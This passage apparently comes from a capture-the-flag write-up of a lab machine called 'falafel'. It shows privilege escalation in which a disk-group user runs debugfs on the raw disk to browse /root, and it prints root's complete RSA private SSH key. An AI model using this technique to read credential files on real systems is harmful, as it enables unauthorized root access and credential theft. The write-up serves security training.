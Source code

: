 Members of the `disk` group get access to a utility called `debugfs` which mounts the file system as `root`. Using this utility allows me to navigate the file system as the `root` user.

```bash
yossi@falafel:~$ debugfs /dev/sda1
debugfs /dev/sda1
debugfs 1.42.13 (17-May-2015)
debugfs: pwd
[pwd]   INODE:      2  PATH: /
[root]  INODE:      2  PATH: /

debugfs:  cd /root
cd /root
debugfs:  ls -l
ls -l
WARNING: terminal is not fully functional
-  (press RETURN)
 262241   40750 (2)      0      0    4096  5-Feb-2018 17:04 .
      2   40755 (2)      0      0    4096  5-Feb-2018 17:20 ..
 262242  100600 (1)      0      0    3121 27-Nov-2017 22:45 .bashrc
 262243  100600 (1)      0      0     148 17-Aug-2015 18:30 .profile
 295046   40700 (2)      0      0    4096 27-Nov-2017 20:13 .cache
 289943  100400 (1)      0      0      33 27-Nov-2017 20:23 root.txt
 269128   40755 (2)      0      0    4096 15-Jan-2018 02:54 .nano
 402797   40755 (2)      0      0    4096 15-Jan-2018 02:12 .ssh
 269130  100644 (1)      0      0     206  5-Feb-2018 17:27 .wget-hsts
 269127  100600 (1)      0      0       0 14-Jan-2018 21:47 .bash_history
 ```
 
From here I can just read the root flag, but that's not good enough. I want a root shell to fully pwn this box. Using `debugfs` I dump out the contents of the root user's private ssh key

```bash
yossi@falafel:~$ debugfs /dev/sda1
debugfs 1.42.13 (17-May-2015)
debugfs:  cd /root/.ssh
debugfs:  cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyPdlQuyVr/L4xXiDVK8lTn88k4zVEEfiRVQ1AWxQPOHY7q0h
b+Zd6WPVczObUnC+TaElpDXhf3gjLvjXvn7qGuZekNdB1aoWt5IKT90yz9vUx/gf
v22+b8XdCdzyXpJW0fAmEN+m5DAETxHDzPdNfpswwYpDX0gqLCZIuMC7Z8D8Wpkg
BWQ5RfpdFDWvIexRDfwj/Dx+tiIPGcYtkpQ/UihaDgF0gwj912Zc1N5+0sILX/Qd
UQ+ZywP/qj1FI+ki/kJcYsW/5JZcG20xS0QgNvUBGpr+MGh2urh4angLcqu5b/ZV
dmoHaOx/UOrNywkp486/SQtn30Er7SlM29/8PQIDAQABAoIBAQCGd5qmw/yIZU/1
eWSOpj6VHmee5q2tnhuVffmVgS7S/d8UHH3yDLcrseQhmBdGey+qa7fu/ypqCy2n
gVOCIBNuelQuIAnp+EwI+kuyEnSsRhBC2RANG1ZAHal/rvnxM4OqJ0ChK7TUnBhV
+7IClDqjCx39chEQUQ3+yoMAM91xVqztgWvl85Hh22IQgFnIu/ghav8Iqps/tuZ0
/YE1+vOouJPD894UEUH5+Bj+EvBJ8+pyXUCt7FQiidWQbSlfNLUWNdlBpwabk6Td
OnO+rf/vtYg+RQC+Y7zUpyLONYP+9S6WvJ/lqszXrYKRtlQg+8Pf7yhcOz/n7G08
kta/3DH1AoGBAO0itIeAiaeXTw5dmdza5xIDsx/c3DU+yi+6hDnV1KMTe3zK/yjG
UBLnBo6FpAJr0w0XNALbnm2RToX7OfqpVeQsAsHZTSfmo4fbQMY7nWMvSuXZV3lG
ahkTSKUnpk2/EVRQriFjlXuvBoBh0qLVhZIKqZBaavU6iaplPVz72VvLAoGBANj0
GcJ34ozu/XuhlXNVlm5ZQqHxHkiZrOU9aM7umQkGeM9vNFOwWYl6l9g4qMq7ArMr
5SmT+XoWQtK9dSHVNXr4XWRaH6aow/oazY05W/BgXRMxolVSHdNE23xuX9dlwMPB
f/y3ZeVpbREroPOx9rZpYiE76W1gZ67H6TV0HJcXAoGBAOdgCnd/8lAkcY2ZxIva
xsUr+PWo4O/O8SY6vdNUkWIAm2e7BdX6EZ0v75TWTp3SKR5HuobjVKSht9VAuGSc
HuNAEfykkwTQpFTlmEETX9CsD09PjmsVSmZnC2Wh10FaoYT8J7sKWItSzmwrhoM9
BVPmtWXU4zGdST+KAqKcVYubAoGAHR5GBs/IXFoHM3ywblZiZlUcmFegVOYrSmk/
k+Z6K7fupwip4UGeAtGtZ5vTK8KFzj5p93ag2T37ogVDn1LaZrLG9h0Sem/UPdEz
HW1BZbXJSDY1L3ZiAmUPgFfgDSze/mcOIoEK8AuCU/ejFpIgJsNmJEfCQKfbwp2a
M05uN+kCgYBq8iNfzNHK3qY+iaQNISQ657Qz0sPoMrzQ6gAmTNjNfWpU8tEHqrCP
NZTQDYCA31J/gKIl2BT8+ywQL50avvbxcXZEsy14ExVnaTpPQ9m2INlxz97YLxjZ
FEUbkAlzcvN/S3LJiFbnkQ7uJ0nPj4oPw1XBcmsQoBwPFOcCEvHSrg==
-----END RSA PRIVATE KEY-----
debugfs:  
```